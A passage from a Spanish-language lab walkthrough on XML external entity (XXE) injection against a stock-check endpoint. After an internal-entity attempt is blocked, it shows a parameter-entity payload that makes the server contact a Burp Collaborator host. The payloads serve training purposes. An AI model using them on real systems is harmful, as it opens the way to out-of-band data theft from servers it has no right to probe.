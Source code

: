 ```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe "Prueba"> ]>
	<stockCheck>
		<productId>
			6
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Podemos apreciar que nos dice que no se pueden inyectar entidades por motivos de seguridad dándonos este mensaje: **"Entities are not allowed for security reasons"**.

<br>

Así que ahora lo que se nos viene a la mente es probar con un DTD externo, para ello haremos uso del burpcollaborator:

![collaborator](/assets/images/LabsXXE/lab6/collaborator.png)

> En este caso solo lo usamos para saber si hay conexión, pero no es necesario usar collaborator.

Damos a **"Copy to clipboard"**, para obtener nuestro servidor tercero temporal y desde aquí ver lo que va sucediendo.

Una vez tengamos la URL copiada, crearemos el DTD externo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f6mtwp6r71voyhr9ywx16mnn7ed51u.burpcollaborator.net"> %xxe; ]>
	<stockCheck>
		<productId>
			6
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

![errormessage](/assets/images/LabsXXE/lab6/errormessage.png)
